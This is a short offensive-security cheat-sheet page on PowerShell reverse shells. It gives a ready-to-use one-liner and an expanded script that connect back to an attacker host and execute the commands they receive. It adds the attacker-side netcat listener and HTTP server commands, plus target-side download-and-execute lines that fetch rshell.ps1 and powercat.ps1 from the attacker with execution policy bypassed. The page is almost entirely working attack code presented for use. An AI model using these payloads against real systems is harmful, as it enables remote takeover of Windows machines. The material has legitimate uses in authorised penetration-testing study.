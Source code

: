 # Powershell

{% hint style="info" %}
cmd.exe payload is more reliable and preferred.
{% endhint %}

## Powershell

### $ATTACKER

{% code title="rshell.ps1 \(one-liner\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$ATTACKER",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
{% endcode %}

{% code title="rshell.ps1 \(expanded\)" %}
```bash
$client = New-Object System.Net.Sockets.TCPClient("$LHOST",443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "# ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()};
$client.Close()
```
{% endcode %}

```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
sudo ufw allow from $TARGET proto tcp to any port 80,443
```

### $TARGET

```bash
powershell IEX (New-Object Net.WebClient).DownloadString("http://$ATTACKER/rshell.ps1");
```

## Powercat

```bash
powershell  -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('http://$ATTACKER/powercat.ps1');powercat -c $ATTACKER -p 443 -e cmd.exe"
```

